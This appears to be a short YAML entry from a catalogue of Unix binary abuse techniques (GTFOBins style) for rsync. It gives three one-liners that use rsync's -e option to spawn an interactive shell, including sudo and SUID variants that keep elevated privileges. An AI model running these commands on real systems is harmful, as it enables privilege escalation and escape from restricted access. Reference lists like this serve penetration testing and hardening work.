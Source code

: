 ```yaml
---
functions:
  execute-interactive:
    - code: rsync -e 'bash -c "exec 10<&0 11>&1 0<&2 1>&2; sh -i"' 127.0.0.1:/dev/null
  sudo-enabled:
    - code: sudo rsync -e 'bash -c "exec 10<&0 11>&1 0<&2 1>&2; sh -i"' 127.0.0.1:/dev/null
  suid-enabled:
    - code: ./rsync -e 'bash -p -c "exec 10<&0 11>&1 0<&2 1>&2; sh -i"' 127.0.0.1:/dev/null
---
```

